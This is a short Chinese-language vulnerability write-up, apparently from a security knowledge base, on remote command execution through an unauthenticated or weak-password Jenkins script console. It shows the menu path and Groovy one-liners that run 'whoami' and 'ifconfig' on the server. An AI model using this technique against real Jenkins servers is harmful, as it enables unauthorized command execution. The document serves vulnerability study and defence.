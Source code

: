 Jenkins功能未授权访问导致的远程命令执行漏洞
===========================================

一、漏洞简介
------------

Jenkins管理登陆之后，后台"系统管理"功能，有个"脚本命令行的"功能，它的作用是执行用于管理或故障探测或诊断的任意脚本命令，利用该功能，可以执行系统命令，该功能实际上Jenkins正常的功能，由于很多管理账号使用了弱口令，或者管理后台存在未授权访问，导致该功能会对Jenkins系统服务器产生比较严重的影响和危害。

二、漏洞影响
------------

三、复现过程
------------

找到"系统管理"------"脚本命令行"。

![](resource/Jenkins功能未授权访问导致的远程命令执行漏洞/media/rId24.png)

![](resource/Jenkins功能未授权访问导致的远程命令执行漏洞/media/rId25.png)

输入任意的Groovy脚本并在服务器上执行它。对于故障排除和诊断很有用。使用'println'命令查看输出（如果使用System.out，它将输出到服务器的标准输出，很难看到。）示例：

    println(Jenkins.instance.pluginManager.plugins)

在脚本命令行中输入下面的语句，即可执行相应的命令：

    println "whoami".execute().text

![](resource/Jenkins功能未授权访问导致的远程命令执行漏洞/media/rId26.png)

    println "ifconfig".execute().text

image
